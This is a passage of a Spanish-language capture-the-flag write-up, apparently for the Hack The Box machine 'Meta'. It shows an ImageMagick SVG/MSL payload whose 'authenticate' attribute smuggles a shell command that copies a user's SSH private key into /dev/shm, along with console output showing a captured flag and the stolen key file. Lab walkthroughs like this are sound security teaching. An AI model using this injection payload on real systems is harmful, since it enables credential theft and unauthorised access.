 Aquí debo explicar un detalle, no podemos guardar el output en este directorio ya que al parecer existe una tarea cron que borra el contenido,
es por eso que en nuestro **`poc.svg`** hacemos que la ruta apunte al directorio **`/dev/shm`**, donde tenemos permisos de escritura.
Si queremos ver en qué otros directorios tenemos permiso de escritura, podemos ejecutar el siguiente comando:

```console
www-data@meta:/tmp/any0ne$ find / -perm -2 -type d 2>/dev/null
/var/tmp
/var/lib/php/sessions
/dev/mqueue
/dev/shm
/run/lock
/tmp
```

Lo guardamos y lo copiamos dentro del directorio **`/var/www/dev01.artcorp.htb/convert_images/`** y esperamos a que sea procesado.
Una vez que se procese, deberíamos ver nuestro archivo creado, que contendrá la flag del usuario.

```console
www-data@meta:/tmp/any0ne$ cp poc.svg /var/www/dev01.artcorp.htb/convert_images/poc.svg
www-data@meta:/tmp/any0ne$ ls -l /var/www/dev01.artcorp.htb/convert_images/
total 4
-rw-r--r-- 1 www-data www-data 432 Jan 25 20:13 poc.svg
www-data@meta:/tmp/any0ne$ cd /dev/shm && ls -la
total 3
-rw-r--r-- 1 thomas   thomas    33 Jan 25 20:14 userflag
www-data@meta:/dev/shm$ cat userflag
e511271f887e1a7a3443c8811e764d14
```

Podemos leer el archivo **`id_rsa`** dentro del directorio **`.ssh`** para así conectarnos por SSH cuando queramos.
Hay que modificar nuestro **`poc.svg`** y repetir el proceso anterior.

```xml
<image authenticate='ff" `echo $(cat ~/.ssh/id_rsa)> /dev/shm/key`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

```console
www-data@meta:/dev/shm$ cp /tmp/any0ne/poc.svg /var/www/dev01.artcorp.htb/convert_images/poc.svg
www-data@meta:/dev/shm$ ls -l /var/www/dev01.artcorp.htb/convert_images/
total 4
-rw-r--r-- 1 www-data www-data 432 Jan 25 20:13 poc.svg
www-data@meta:/dev/shm$ ls -l
total 8
-rw-r--r-- 1 thomas   thomas   2590 Jan 25 20:29 key
-rw-r--r-- 1 thomas   thomas     33 Jan 25 20:14 userflag
```
